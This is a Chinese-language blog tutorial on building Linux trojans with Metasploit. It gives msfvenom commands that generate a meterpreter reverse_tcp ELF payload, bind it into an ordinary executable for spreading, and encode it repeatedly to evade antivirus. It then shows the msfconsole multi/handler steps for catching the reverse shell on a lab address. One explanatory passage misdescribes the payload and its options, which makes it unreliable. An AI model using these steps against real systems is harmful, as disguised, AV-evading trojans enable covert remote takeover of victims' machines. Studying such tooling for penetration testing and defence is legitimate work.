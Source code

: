 ```yaml
---
title: Metasploit 木马编译利用
date: 2022-4-2 23:29:09
tags: [Trojan horse,Linux,Kali,Metasploit]
categories: 
 - [CyberSecurity,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


:::default
**Metasploit**是一个开源的，可用来**发现**、**验证**并**利用**漏洞的渗透测试平台。

Kali 中默认安装了 **Metasploit** 框架。
:::

## msfvenom 命令实现木马生成、捆绑以及免杀处理

**简介：**

**msfvenom** 是 **Metasploit** 中的一个命令。

**msfvenom** 命令结合了 msfpayload 和 msfencoder 的功能，能够**生成木马**，并实现木马编码**免杀**和避免坏字符、捆绑木马等。

### msfvenom 命令用法
涉及到的**选项**有：

**-l**：列出指定**模块**（包括payloads, encoders, nops, platforms, archs, encrypt, formats, all）的所有可用**资源**。其中 **payloads** 对应的就是**木马**。

**-p**：指定需要使用的 **payload** ，可以指定 ‘-’ 或者 stdin 来**自定义** payload。
如果不知道 payload 包括哪些选项，可以使用 `--list-options` 列出 payload 的标准选项。

**-f**：指定payload的**输出格式**，可以使用 `--list formats` 来列出可选的格式。

**-o**：指定输出的payload的**保存路径**，也可以采用**重定向**的方式来替代-o选项。

**-x**： 指定一个**自定义**的**可执行文件**作为模板。即，把木马**捆绑**到指定的可执行文件上。

**-e**：指定使用的**编码器**（）。

**-i**： 指定对 payload 编码的**次数**
### 木马生成
1. 先使用 `msfvenom -l payloads` 命令，查看**可用的木马**。
因为可用的木马有**很多**，所以可以根据所需木马的特性、结合 **grep** 限定木马的种类 ![image-20230426010221520](https://res.cloudinary.com/sycamore/image/upload/v1682442146/Typera/2023/04/ebeb726eacc7fad3302b80554fb13af1.png)
以木马 `linux/x86/meterpreter/reverse_tcp`（反向连接)作为样例，
<br>
2. 查看该木马**需要设置的选项**：
`msfvenom -p linux/x86/meterpreter/reverse_tcp --list-options`![image-20230426010409894](https://res.cloudinary.com/sycamore/image/upload/v1682442254/Typera/2023/04/874f3751e4961c5140e9e30ca40f22e7.png)


<br>

3. 查看可指定的**输出格式**：
`msfvenom --list formats`![image-20230426010426398](https://res.cloudinary.com/sycamore/image/upload/v1682442270/Typera/2023/04/38ea1bb4d485262080541e030e6fc0a3.png)
<br>

4. 参考上面得到的信息，构造**生成木马**的命令：
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -o /root/payload.elf`![image-20230426010433724](https://res.cloudinary.com/sycamore/image/upload/v1682442278/Typera/2023/04/09553b61c2c9d88fe78ede3ea742468a.png)


其中，**-p** 选择生成的木马为：**linux/x64/shell_bind_tcp**；
**RHOST** 指定将要攻击的**目标主机**的**IP**；
**LPORT** 指定对应端口号（默认为4444，故可以不写）；
**-f** 指定生成木马文件的文件**类型**为 **elf**
**-o** 指定保存生成的木马文件的**地址**为：**/root/payload.elf**

### 木马捆绑
通常情况下，木马会和正常的文件**捆绑**在一起，方便木马进行**感染**和**传播**。

所以，我们要事先准备好一个用于**绑定**的文件，这里选用的是 `/root/hello_world`（ **gcc** 编译的一个简单的C程）。

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -x /root/hello_world -o /root/payload_bundle.elf`
![image-20230426010440843](https://res.cloudinary.com/sycamore/image/upload/v1682442285/Typera/2023/04/c7bc72a382ae694be589d6a5cb25a3de.png)


其中，**-x** 指定**绑定**的可执行文件为 `/root/hello_world`，其余项与生成木马的指令一致。


### 木马免杀
在杀毒软件泛滥的今天，不对木马文件进行免杀处理很难通过**杀软的检查**，所以需要对木马进行**免杀**处理。

查看可用的编码器：`msfvenom -l encoders`
![image-20230426010444808](https://res.cloudinary.com/sycamore/image/upload/v1682442290/Typera/2023/04/d9aa39a90db02fe251a93aff3dd31cb7.png)

选用**免杀**效果较好的 **x86/shikata_ga_nai** 编译器进行编码。
命令：`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf -x /root/hello_world -o /root/payload_Anti_Virus.elf`
![image-20230426010449517](https://res.cloudinary.com/sycamore/image/upload/v1682442294/Typera/2023/04/9f32f881202e4a535bac4f5ce0f8c517.png)


其中，**-e** 指定编译器为 **x86/shikata_ga_nai**，
**-i** 指定编码的次数为 5 次。
编码 **5** 次的木马，基本可以**躲避部分**杀软的查杀，

当然可以对木马进行**更多次**的编码，这样可以**提高**木马的**免杀机率**，但是需要注意：这也可能会导致木马**不可使用**。

## msfconsole 木马利用
使用之前生成的木马文件： **payload.elf**。

### 攻击端：

输入命令 `msfconsole` 打开 **MSF 控制台**
![image-20230426010454524](https://res.cloudinary.com/sycamore/image/upload/v1682442298/Typera/2023/04/2c2e815f13d049741cd9371ace771daa.png)



输入命令：`use exploit/multi/handler`，选择exploit模块

然后，可以输入命令 `show options` 查看**设置的参数**（查看还要设置哪些）
![trojan-horse10](https://res.cloudinary.com/sycamore/image/upload/v1704010005/Typera/2023/12/4a6d04ee3788a771e9fe642e64fa8104.png)




命令 `set PAYLOAD linux/x86/meterpreter/reverse_tcp` ，设置 **PAYLOAD** 
命令 `set LHOST 192.168.158.132`，设置local host 的**IP**

命令 `run` 开始**监听**对应的端口，等待**目标服务器**执行**木马**后，就能获得 **shell**。
如下图所示：
![image-20230426010500036](https://res.cloudinary.com/sycamore/image/upload/v1682442304/Typera/2023/04/8b2780434593170f1b8173cf9fa13836.png)



### 目标服务器：

用各种方式将**木马文件**传到**目标服务器**上，

命令 `chmod +x payload.elf` 更改文件执行权限

执行 **payload.elf** 文件（**顺序**：要在攻击端开始监听之后执行）：
![image-20230426010506608](https://res.cloudinary.com/sycamore/image/upload/v1682442311/Typera/2023/04/80d816c18312f780f743c4b82696c43f.png)


整理一下：
- 攻击端：
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
4.` set LHOST 192.168.158.132`
5. `run`，开始监听
- 目标服务器：
1. 下载木马文件
2. `chmod +x payload.elf`
3. `./ payload.elf`
